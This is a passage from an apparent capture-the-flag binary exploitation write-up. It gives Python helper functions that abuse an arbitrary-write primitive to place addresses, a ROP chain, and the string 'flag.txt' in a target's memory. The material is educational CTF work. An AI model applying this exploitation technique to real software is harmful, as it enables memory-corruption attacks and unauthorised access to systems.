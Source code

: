 ```Python
    sock.sendlineafter("What?", str(content))
#goes through the write part of the target without writing anything:
#must be called after a read function has been called
def useless_write() :
    sock.sendlineafter("To where?", "f")
    sock.sendlineafter("What?", "f")
#goes through the part where feedback is requested without doing much
#must be called after a write function is called
def useless_feedback() :
    sock.sendlineafter("challenge?", ("A" * 0x70))
#cleaner response to the prompt at the end
def feedback(contents) :
    sock.sendlineafter("challenge?", contents)
```
While we're on it, let's also make some functions that we use to do reads/writes/give feedback when those advance the exploit. This is mainly to make the exploit more readable.
Let's make some functions to automate the writing of massive amounts of data. First, let's make a function to automate the writing of an address to a certain location.
```Python
#writes an address to an arbitrary location
#takes the address in hex
def write_addr(location, addr) :
    useless_read()
    first_half = addr & 0x00000000ffffffff
    write_int(location, first_half)
    useless_feedback()
    useless_read()
    second_half = addr & 0xffffffff00000000
    second_half = second_half >> 32
    write_int(location+4, second_half)
    useless_feedback()
``` 
The code breaks the address into two halves and writes them to the desired location in separate writes.
Next, let's make a function to write a whole ROP chain to an arbitrary location. A ROP chain is just a bunch of addresses(and other data formatted in 8-byte chunks)
, so we just need to repeatedly call `write_addr()`.
```Python
#writes a rop chain to an arbitrary location
#only constraint is that the rop chain needs to have encoded addresses in multiples of 8 bytes:
def write_chain(location, chain) :
    idx = 0
    while idx < len(chain) :
        #take out the current address from the array and convert it to a normal integer:
        current_addr = u64(chain[idx:(idx+8)])
        #next write that address to the location:
        write_addr(location+idx, current_addr)
        idx += 8
``` 

Before writing the ROP chain, we need to write the string "flag.txt" to a location in .bss. We'll need to open the flag file via `open()`, and `open()` needs to know the name of the file that we want
to open. We have an arbitrary write, so we'll use that to write the string to .bss.
```Python
    #now write the string "flag.txt" to .bss
    #string will be located at 0x404078
    useless_read()
    write_int(0x404078, 0x67616c66)
    useless_feedback()
    useless_read()
    write_int(0x404078 + 4, 0x7478742e)
    useless_feedback()
    useless_read()
    write_int(0x404078 + 8, 0x0)
```